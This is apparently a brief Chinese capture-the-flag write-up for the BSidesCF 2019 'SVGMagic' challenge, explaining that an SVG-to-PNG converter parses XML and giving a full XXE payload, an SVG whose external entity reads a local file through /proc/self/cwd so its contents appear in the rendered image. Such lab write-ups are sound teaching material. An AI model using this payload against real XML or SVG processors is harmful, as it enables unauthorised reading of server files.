


# [BSidesCF 2019]SVGMagic

## 知识点

`svg渲染xxe`

## 解题



说是`svg`转为`png`，`svg`的格式是`xml`，那么我们尝试`xxe`将最终的结果以`png`的形式输出即可

长度或者宽度不够可能导致`flag`,动态调整即可，上传`1.xml`内容为

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY xxe SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
          <text x="10" y="100">&xxe;</text>
</svg>
```

因为`/flag`没找到`flag`，看别人`wp`发现实在当前目录，`/proc/self/cwd/`访问的是当前目录,上传后即可获取`flag`



